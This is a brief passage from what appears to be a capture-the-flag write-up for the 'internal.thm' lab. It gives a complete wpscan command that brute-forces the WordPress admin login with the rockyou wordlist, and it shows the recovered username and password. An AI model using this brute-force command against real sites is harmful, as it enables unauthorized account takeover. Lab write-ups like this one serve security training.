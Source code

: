 we enumerated the user `admin` with wpscan. we can brute force for the password with this command:

`wpscan --url http://internal.thm/blog/wp-login.php -U admin --passwords /usr/share/wordlists/rockyou.txt`

we get the creds:

```bash
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```